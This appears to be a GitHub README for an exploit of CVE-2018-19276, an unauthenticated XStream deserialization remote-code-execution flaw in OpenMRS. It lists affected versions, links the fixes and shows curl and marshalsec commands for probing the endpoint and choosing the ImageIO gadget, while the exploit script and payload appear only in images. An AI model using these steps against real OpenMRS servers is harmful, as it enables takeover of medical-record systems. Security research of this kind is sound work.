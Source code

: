 # CVE-2018-19276 OpenMRS Insecure Object Deserialization RCE

From https://talk.openmrs.org/t/critical-security-advisory-cve-2018-19276-2019-02-04/21607

> Insecure object deserialization allows Arbitrary Code Execution without needing to log in. IP restrictions on Webservices module do not prevent this attack.

![image](https://user-images.githubusercontent.com/5891788/54159267-e6174a00-444c-11e9-9e8c-e00ed49be707.png)

* all versions of OpenMRS Platform 2.1.x < 2.1.4
* all versions of OpenMRS Platform 2.0.x < 2.0.8
* all versions of OpenMRS Platform 1.12.x < 1.12.1
* all versions of OpenMRS Reference Application 2.8.x < 2.8.1
* all versions of OpenMRS Reference Application 2.7.x < 2.7.2
* all versions of OpenMRS Reference Application 2.6.x < 2.6.2

Found by Nicolas Serra from Security Associate at Bishop Fox.

### Proof Of Concept

Let's check how the REST webservices of OpenMRS works using the official [documentation](https://wiki.openmrs.org/display/docs/REST+Web+Services+API+For+Clients#RESTWebServicesAPIForClients-SampleRESTcalls):

```
curl -u admin:test -i 'http://localhost:8080/openmrs/ws/rest/v1/concept'
```

Let's check the fix:
* https://github.com/openmrs/openmrs-module-webservices.rest/pull/369
* https://github.com/openmrs/openmrs-module-webservices.rest/pull/372

We can find this information:

![image](https://user-images.githubusercontent.com/5891788/54126089-06bcb100-4407-11e9-85b9-1427bc0fc944.png)
https://github.com/openmrs/openmrs-module-webservices.rest/pull/369#issuecomment-443513473

They basically filter the **Content-type** of POST request when it's XML, so maybe XXE or an Insecure Deserialization :+1: 

Let's check the documentation again:

![image](https://user-images.githubusercontent.com/5891788/54125529-8d708e80-4405-11e9-9961-44ddca733402.png)

Well, this is nice, what append if we send XML to the REST webservice ?

```
> curl -i -s -k  -X $'POST' -H $'Host: 127.0.0.1:8888' -H $'Content-Type: text/xml'  $'http://127.0.0.1:8888/openmrs/ws/rest/v1/concept'

HTTP/1.1 500 Internal Server Error
Server: Apache-Coyote/1.1
Set-Cookie: JSESSIONID=A896A8B1B0092400DBF74E2E8C365949; Path=/openmrs; HttpOnly
Content-Type: application/json;charset=UTF-8
Content-Length: 8980
Date: Mon, 11 Mar 2019 12:58:30 GMT
Connection: close

{"error":{"message":"[ : input contained no data]","code":"com.thoughtworks.xstream.io.xml.XppReader:126","detail":"com.thoughtworks.xstream.io.StreamException:  : input contained no data\n\tat com.thoughtworks.xstream.io.xml.XppReader.pullNextEvent(XppReader.java:126)\n\tat com.thoughtworks.xstream.io.xml.AbstractPullReader.readRealEvent(AbstractPullReader.java:148)\n\tat com.thoughtworks.xstream.io.xml.AbstractPullReader.readEvent(AbstractPullReader.java:141)\n\tat com.thoughtworks.xstream.io.xml.AbstractPullReader.move(AbstractPullReader.java:118)\n\tat com.thoughtworks.xstream.io.xml.AbstractPullReader.moveDown[...]
```
The error give something very interesting : **xstream.XStreamMarshaller**

Let's try to use the awesome tool [marshalsec](https://github.com/mbechler/marshalsec) to trigger an RCE using Java Deserialization.

Let's check available gadget:

```
$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.XStream -v 
No gadget type specified, available are [SpringPartiallyComparableAdvisorHolder, SpringAbstractBeanFactoryPointcutAdvisor, Rome, XBean, Resin, CommonsConfiguration, LazySearchEnumeration, BindingEnumeration, ServiceLoader, ImageIO, CommonsBeanutils]
```
At this point, I just use the github search on every gadget of **XStream** to find an and occurrence. Only the gadget **ImageIO** look promising:

![image](https://user-images.githubusercontent.com/5891788/54129586-ded14b80-440e-11e9-854b-ca6c59cd5250.png)

Let's try it:

![image](https://user-images.githubusercontent.com/5891788/54157614-f9c0b180-4448-11e9-8f74-9798b47728f6.png)

That it ! 

### Exploit

```
python CVE-2018-19276.py
```

![image](https://user-images.githubusercontent.com/5891788/54159267-e6174a00-444c-11e9-9e8c-e00ed49be707.png)

###  Ressource:
* https://issues.openmrs.org/browse/RESTWS-742
* https://www.bishopfox.com/news/2019/02/openmrs-insecure-object-deserialization/
* https://talk.openmrs.org/t/critical-security-advisory-cve-2018-19276-2019-02-04/21607
* https://wiki.openmrs.org/display/docs/REST+Web+Services+API+For+Clients#RESTWebServicesAPIForClients-SampleRESTcalls

